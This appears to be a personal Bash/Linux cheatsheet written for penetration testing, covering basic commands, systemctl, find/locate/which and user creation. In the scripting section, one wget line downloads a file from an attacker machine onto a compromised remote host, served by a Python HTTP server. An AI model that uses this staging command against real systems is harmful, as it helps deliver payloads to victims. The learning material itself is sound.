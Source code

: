 # Bash
Now I know some of these arent bash,  but if it runs in the commandline, on most linux systems, and useful, I'll throw it here.


Table

1. Basic commands

2. Complex commands

3. Command cheatsheet

4. [Introduction to bash scripting](#bash_scripting)
5. Dirty knowledge ;)




### Basic commands for interacting with linux

**cd** - Change Directory

**ls** - List Selection

**file** - determine filetype

**mkdir** - Make Directory

**touch** - create a file

**mv** - move the file

**cp** - copy and paste a file

**pwd** - print working directory


### Complex commands

**tree** - creates a kind of map

**ifconfig** - displays cnetwork interfaces, can be used to do some configurations

**passwd** - changes password

**systemctl** - gives control over **systemd**, which is the system and service manager for linux. When run as first process on boot (as PID 1), it acts as init system that brings up and maintains userspace services.

**grep** - "global regular expression print", processes text line by line and prints any lines which match a specified pattern.

**netstat** - prints information about the \*nix networking subsystem

**apache2** - The HTTP service can come in handy during a penetration test, either for hosting a site,
or providing a platform for downloading files to a victim machine.

**chmod** - modify file permissions

**wget** - retrieves files using internet protocols, noninteractive

### Command cheatsheet


**Create sudo user**
~~~
uname@box~# adduser username
uname@box~# usermod -aG sudo username
uname@box~# su - username
~~~

**Start a service**
In this case it's apache2
~~~
┌─[ganymede@parrot]─[~]
└──╼ $sudo systemctl start apach2
~~~

**Verify a running process**

In this case it's ssh. If you're sexually insecure, don't worry, the "D" only means Damon.
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo netstat -antp|grep sshd
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      19438/sshd          
tcp6       0      0 :::22                   :::*                    LISTEN      19438/sshd
~~~


**Start SSH services automatically at boot time**
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo systemctl enable ssh
[sudo] password for ganymede: 
\Synchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable ssh
insserv: warning: current start runlevel(s) (empty) of script `ssh' overrides LSB defaults (2 3 4 5).
insserv: warning: current stop runlevel(s) (2 3 4 5) of script `ssh' overrides LSB defaults (empty).
~~~

**View file permissions(and then change them)**
~~~
 ┌─[ganymede@parrot]─[~/Downloads]
└──╼ $ls -als ./ida*
45956 -rw-r--r-- 1 ganymede ganymede 47056982 Jul 20 01:32 ./idafree70_linux.run
┌─[✗]─[ganymede@parrot]─[~/Downloads]
└──╼ $chmod 755 idafree70_linux.run
┌─[ganymede@parrot]─[~/Downloads]
└──╼ $ls -als ./ida*
45956 -rwxr-xr-x 1 ganymede ganymede 47056982 Jul 20 01:32 ./idafree70_linux.run
~~~

**Bring your internet up, assign it an IP address**
~~~
ifconfig eth0 up 192.168.1.34
~~~

Intro to Bash Scripting
-

To start we'll find the 
 - subdomains of an index page
 - ipaddress of those sub domains
 
We'll use the  [Microshaft index page](https://www.microsoft.com/) for this example and start by downloading the page.
~~~
wget https://www.microsoft.com/
~~~
wget can also be use to serve files out bound for example, we'll use the default python server to make a directory an http server
~~~
python -m SimpleHTTPServer
~~~ 

and if we have code execution remotely, we can run something like

~~~
wget $attacking_Machine_IP:port/direcory/.file -O /remoteDirectory/placingThe/filHere
~~~




















Dirty knowledge ;)
-

### Systemctl

Some useful unit commands for **systemctl** 
 - **start** - start a unit or multiple instances
 - **stop** - stop a unit or multiple instances
 - **status** - Show runtime status information about one or more units
 - **kill** - Send a signal to one or more processes of the unit
 - **restart** - Restart one or more units specified on the command line
 
Some useful unit file commands for **systemctl**, my understanding is that these types of commands will modify files and the previous are only session specific.
- **enable** - This will create a number of symlinks as encoded in the "[Install]" sections of the unit files. 
- **disable** - This removes all symlinks to the specified unit files from the unit configuration directory, and hence undoes the changes made by enable.

 You can always read more here https://www.commandlinux.com/man-page/man1/systemctl.1.html and I highly reccomend reading a little of this https://docs.fedoraproject.org/quick-docs/en-US/understanding-and-administering-systemd.html is definitely worthwhile.

### Find, Locate, and Which
Knowing the difference between find, locate, and which.


Prior to using the **locate** command, we must build a local database of **all files** on the file system before using it.
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo updatedb
[sudo] password for ganymede: 
┌─[ganymede@parrot]─[~]
└──╼ $locate svc.exe
/usr/share/metasploit-framework/data/meterpreter/metsvc.exe
/usr/share/metasploit-framework/data/templates/template_x64_windows_svc.exe
/usr/share/metasploit-framework/data/templates/template_x86_windows_svc.exe
/usr/share/responder/tools/MultiRelay/bin/Syssvc.exe
~~~

The **which** command only searches through directories that are defined in the *$PATH* environment variable for a  given filename. If a  match is found, which returns the full path to the file. Since svc 

~~~
┌─[ganymede@parrot]─[~]
└──╼ $which svc
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $which sh
/bin/sh
~~~

The **find** command is more aggressive than either than locate or which, allowing you to recursively search a given path for various files. 
Due to the size of this example I had to collapse it.


<details><summary>Details</summary><p>
   
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo find / -name svc*
/usr/include/rpc/svc_auth.h
/usr/include/rpc/svc.h
/usr/lib/python2.7/dist-packages/samba/dcerpc/svcctl.x86_64-linux-gnu.so
/usr/lib/python2.7/dist-packages/volatility/plugins/malware/svcscan.py
/usr/lib/x86_64-linux-gnu/wine/svchost.exe.so
/usr/lib/x86_64-linux-gnu/wine/fakedlls/svchost.exe
/usr/bin/svcrack
/usr/bin/svcrash
/usr/share/bash-completion/completions/svcadm
/usr/share/regripper/plugins/svcdll.pl
/usr/share/regripper/plugins/svc.pl
/usr/share/regripper/plugins/svchost.pl
/usr/share/regripper/plugins/svc_plus.pl
/usr/share/regripper/plugins/svc2.pl
/usr/share/metasploit-framework/lib/rex/proto/dcerpc/svcctl.rb
/usr/share/metasploit-framework/lib/rex/proto/dcerpc/svcctl
/usr/share/man/man3/svcerr_auth.3.gz
/usr/share/man/man3/svc_freeargs.3.gz
/usr/share/man/man3/svcfd_create.3.gz
/usr/share/man/man3/svc_sendreply.3.gz
/usr/share/man/man3/svc_getreqset.3.gz
/usr/share/man/man3/svc_getargs.3.gz
/usr/share/man/man3/svcerr_progvers.3.gz
/usr/share/man/man3/svcerr_noprog.3.gz
/usr/share/man/man3/svctcp_create.3.gz
/usr/share/man/man3/svc_getcaller.3.gz
/usr/share/man/man3/svcerr_systemerr.3.gz
/usr/share/man/man3/svcerr_decode.3.gz
/usr/share/man/man3/svcerr_weakauth.3.gz
/usr/share/man/man3/svcerr_noproc.3.gz
/usr/share/man/man3/svcudp_create.3.gz
/usr/share/man/man3/svc_unregister.3.gz
/usr/share/man/man3/svc_register.3.gz
/usr/share/man/man3/svc_run.3.gz
/usr/share/man/man3/svc_getreq.3.gz
/usr/share/man/man3/svcudp_bufcreate.3.gz
/usr/share/man/man3/svc_destroy.3.gz
/usr/share/man/man3/svcraw_create.3.gz
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc_xprt.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcauth.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc_rdma.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcauth_gss.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcsock.h
~~~
</p></details>

---
Sources:

tldp.org
